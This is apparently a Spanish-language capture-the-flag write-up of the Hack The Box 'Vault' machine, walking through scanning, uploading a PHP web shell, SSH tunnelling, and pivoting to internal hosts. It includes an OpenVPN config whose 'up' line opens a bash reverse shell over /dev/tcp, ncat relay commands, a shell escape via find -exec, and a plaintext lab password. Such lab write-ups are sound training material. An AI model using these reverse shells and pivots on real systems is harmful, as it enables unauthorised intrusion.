






Hack The Box - Vault

Contenido
MASSCAN
Escaneo a todos los puertos UDP/TCP.
Starting masscan 1.0.4 (http://bit.ly/14GZzcT)
-- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 22/tcp on 10.10.10.109
Discovered open port 80/tcp on 10.10.10.109
NMAP
Escaneo a puertos 22, 80.
Starting Nmap 7.70 ( https://nmap.org )
Nmap scan report for 10.10.10.109
Host is up (0.42s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 a6:9d:0f:7d:73:75:bb:a8:94:0a:b7:e3:fe:1f:24:f4 (RSA)
| 256 2c:7c:34:eb:3a:eb:04:03:ac:48:28:54:09:74:3d:27 (ECDSA)
|_ 256 98:42:5f:ad:87:22:92:6d:72:e6:66:6c:82:c1:09:83 (ED25519)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.97 seconds
HTTP
Puerto 80 http encontramos una pagina solo con el siguiente contenido, en el que anuncian a un nuevo cliente ‘Sparklays’ pero su pagina (Sparklays.com) aun esta en construccion por lo que no puede ser accedida.

Agregamos todas las palabras posibles del contenido de la pagina a un diccionario para gobuster utilizando cewl.
cewl -w vault_custom.txt http://10.10.10.109/ && tr 'A-Z' 'a-z' < vault_custom.txt > vault_lower.txt && cat vault_custom.txt vault_lower.txt >> /usr/share/wordlist/dirb/common.txt

DIRBUSTER
Utilizando dirbuster encontramos las siguientes rutas.

/admin.php

/login.php

/design/design.html

/design/changelogo.php

/design/uploads/

SIMPLE PHP SHELL
Para obtener una shell vamos a concentrarnos en changelogo.php es la unica ruta donde podemos subir archivos y considerando que, al subir un archivo se guarda en /uploads/ podremos ejecutar nuestro payload o comandos, para ello vamos a copiar un webshell que kali trae en su sistema.

Enumerando los directorios nos encontramos con un archivo ssh que contiene el nombre de Dave y un aposible contraseña para el servicio ssh.

SHELL - SSH
Satisfactoriamente nos logeamos con las credenciales para el usuario dave.

Dentro de los archivos de dave encontramos dos archivos mas key y Servers.

Servers contiene IPs y el nombre que tiene cada una de ellas, y en key una “contraseña”, nmap no esta instalado en la maquina por lo que vamos a utilizar netcat para hacer un escaneo de los puertos de cada ip que nos aparece en el archivo Servers.
NETCAT => https://www.cyberciti.biz/faq/linux-port-scanning/
Dentro de las interfaces encontramos una interna en la cual nos identificamos con la ip 192.168.122.1.

Primero verificamos si hay mas de una IP disponible en un rango del 1 al 10.


Ahora sabemos que existen otras dos IP dentro de la interfaz virbr0 (192.168.122.5, 192.168.122.4) y por ahora solo tenemos acceso a una 192.168.122.1.

Escaneo de puertos por IP

Podemos observar que la IP 192.168.122.4 tiene dos puertos abiertos 80 y 22, mientras que la otra IP 192.168.122.5 netcat no encontro ningun puerto abierto pero si esta activa la direccion IP.
TUNELING SSH
Vamos a traer localmente la IP 192.168.122.4 y su puerto 80 a nuestra maquina, para poder analizar el puerto 80.
ssh -L 9090:192.168.122.4:80 dave@10.10.10.109

Ejecutamos el comando localmente.

Revisamos si el puerto esta a la escucha localmente.

Procedemos a abrir 127.0.0.1:9090 en firefox para ver que contenido tiene.

/DNS Settings
Esta pagina no existe por lo que no encontramos nada.

/VPN Configuration
Al parecer es una pagina para modificar y executar archivo ovpn

SHELL INVERSA - OVPN
En https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da nos muestran como se puede realizar una shell inversa con las siguiente configuracion:
remote 192.168.1.245
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.1.218/8181 0<&1 2>&1&'"
Como referencia para realizar una shell inversa tomamos la documentacion de openvpn (https://openvpn.net/community-resources/reference-manual-for-openvpn-2-4/) para realizar algunos cambios, y este es el resultado:
remote 192.168.122.4
dev tun
nobind
script-security 2
up "/bin/bash -c 'bash -i >& /dev/tcp/192.168.122.1/9999 0>&1'"
Ya que la IP donde esta corriendo la pagina es 192.168.122.4 vamos a obtener una shell inversa de esa maquina, por lo que en la maquina dave (192.168.122.1) vamos a poner a la escucha netcat y asi obtener nuestra shell.

Presionamos Test VPN

Y obtenemos nuestra shell inversa

Y nuestra bandera USER

De igual forma encontramos un archivo ssh que contiene credenciales de lo que parece ser ssh para el usuario dave.
SSH dave 192.168.122.4
dave
dav3gerous567
Intentamos logearnos y satisfactoriamente tenemos acceso por medio de ssh a 192.168.122.4.

Nuestro progreso hasta ahora 
Enumerando dentro de 192.168.122.4 encontramos en el historial de comandos (.bash_history) una conexion a 192.168.5.2 por el puerto 987 utilizando netcat por el puerto local 5555, tambien un escaneo de nmap a esa misma ip.

Intentamos hacer un escaneo a esa IP 192.168.5.2.


Dentro de la carpeta /var/www/DNS encontramos un archivo llamado interfaces, vemos que se han agregado nuevas rutas estaticas a la tabla de enrutamiento.

La ruta de destino que tenga 192.168.5.0 sera redirigido a la puerta de enlace 192.168.122.5 por medio de la interfaz ens3.
Tercera IP (192.168.5.2)

ROOT - FLAG
Vamos a utilizar el mismo comando que esta en el historial para poder conectarnos a 192.168.5.2.
ncat -l 5555 --sh-exec "ncat 192.168.5.2 987 --source-port=4444" &


Obtenemos nuestra shell en 192.168.5.2 y nuestra bandera root pero esta encriptada y necesitamos una clave.
Screenshot from 2019-04-04 19.05.04[IMAGE]
Nuestra tercer maquina

Anteriormente habiamos encontrado un archivo key en 192.168.122.1 con una frase, para extraer la informacion de nuestra bandera encriptada vamos trasferir el archivo a donde esta la key.
Para escapar de la shell utilizamos:
find / -exec sh -i \;

Trensferir root.txt.gpg
Para transferir nuestro archivo vamos a hacer algo similar a lo que hicimos para la conexion ssh a 192.168.5.2.
ncat -l 5555 --sh-exec "ncat 192.168.5.2 987 --source-port=4444" &
scp -P 5555 dave@192.168.122.4:/home/dave/root.txt.gpg .

Ahora necesitamos transferirlo a 192.168.122.1 donde esta nuestra key, codificamos root.txt.gpg en base64.

Decodificamos el archivo.

Desencriptamos con la frase que esta en el archivo key y obtenemos nuestra bandera root.